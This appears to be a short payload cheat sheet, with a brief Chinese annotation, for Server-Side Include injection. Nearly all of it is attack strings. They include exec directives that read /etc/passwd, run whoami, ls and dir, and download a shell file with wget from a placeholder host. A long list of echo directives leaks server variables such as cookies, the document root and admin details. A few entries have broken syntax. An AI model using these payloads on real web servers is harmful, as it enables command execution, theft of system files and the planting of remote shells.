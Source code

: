 `<!--#printenv -->`：输出环境变量。

```
<!--#exec cmd="cat /etc/passwd"-->
```

more:

```
<pre><!--#exec cmd="ls" --></pre>
<pre><!--#echo var="DATE_LOCAL" --> </pre>
<pre><!--#exec cmd="whoami"--></pre>
<pre><!--#exec cmd="dir" --></pre>
<!--#exec cmd="ls" -->
<!--#exec cmd="wget http://website.com/dir/shell.txt" -->
<!--#exec cmd="/bin/ls /" -->
<!--#exec cmd="dir" -->
<!--#exec cmd="cd C:\WINDOWS\System32">
<!--#config errmsg="File not found, informs users and password"-->
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DOCUMENT_URI" -->
<!--#config timefmt="A %B %d %Y %r"-->
<!--#fsize file="ssi.shtml" -->
<!--#include file=?UUUUUUUU...UU?-->
<!--#echo var="DATE_LOCAL" --> 
<!--#exec cmd="whoami"--> 
<!--#printenv -->
<!--#flastmod virtual="echo.html" -->
<!--#echo var="auth_type" -->
<!--#echo var="http_referer" -->
<!--#echo var="content_length" -->
<!--#echo var="content_type" -->
<!--#echo var="http_accept_encoding" -->
<!--#echo var="forwarded" -->
<!--#echo var="document_uri" -->
<!--#echo var="date_gmt" -->
<!--#echo var="date_local" -->
<!--#echo var="document_name" -->
<!--#echo var="document_root" -->
<!--#echo var="from" -->
<!--#echo var="gateway_interface" -->
<!--#echo var="http_accept" -->
<!--#echo var="http_accept_charset" -->
<!--#echo var="http_accept_language" -->
<!--#echo var="http_connection" -->
<!--#echo var="http_cookie" -->
<!--#echo var="http_form" -->
<!--#echo var="http_host" -->
<!--#echo var="user_name" -->
<!--#echo var="unique_id" -->
<!--#echo var="tz" -->
<!--#echo var="total_hits" -->
<!--#echo var="server_software" -->
<!--#echo var="server_protocol" -->
<!--#echo var="server_port" -->
<!--#echo var="server_name -->
<!--#echo var="server_addr" -->
<!--#echo var="server_admin" -->
<!--#echo var="script_url" -->
<!--#echo var="script_uri" -->
<!--#echo var="script_name" -->
<!--#echo var="script_filename" -->
<!--#echo var="netsite_root" -->
<!--#echo var="site_htmlroot" -->
<!--#echo var="path_translated" -->
```